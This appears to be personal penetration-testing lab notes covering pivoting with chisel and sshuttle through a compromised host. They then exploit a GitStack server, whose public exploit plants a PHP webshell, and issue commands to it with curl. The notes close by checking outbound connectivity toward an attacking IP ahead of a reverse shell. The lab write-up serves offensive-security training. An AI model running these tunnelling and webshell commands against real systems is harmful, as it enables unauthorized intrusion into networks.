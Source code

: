 LISTEN\_PORT is the port chisel started the server in and LOCAL\_PORT is the port we wish to use to leverage access

<div align="left"><figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure></div>

#### Sshuttle

Uses an SSH connection to create a tunnelled proxy that acts like a new interface, like a VPN wo explicit proxy creation, also encrypted comms since using ssh

Need ssh access and python installed on rhost

```
sshuttle -r username@address subnet 
sshuttle -r user@172.16.0.5 172.16.0.0/24                    #use -N if don't want to specify subnet
sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET   #use ssh-cmd to use key or perform any standard ssh syntax command
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5      #use -x to exclude compromised target from subnet range if show error
```

### Git Server

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can access 10.200.84.150 from our own machine w no extra setup crazy, if this wasn't there we would have to setup a proxy using proxychains or sum else

We can acess the http page directly from our browser now and redirects to a gitstacks page which has an exploit found on searchsploit

The python script also creates a PHP backdoor and allows us to pass commands&#x20;

cURL do be better than burp cus you gotta add extra headers to accept POST data

`Content-Type : application/x-www-form-urlencoded`

`curl -X POST http://10.200.84.150/web/exploit-tripz.php -d "a=systeminfo"`

Now, we can have a webshell, let's get a reverse to make it more interactive. From the whoami and other recon we know its a WIndows system so a nc reverse shell aint gonna work like that

To know if this system can interact with the internet, ping our system

```
tcpdump -i tun0 icmp        #CLI Wireshark
ping -n 3 ATTACKING_IP
```
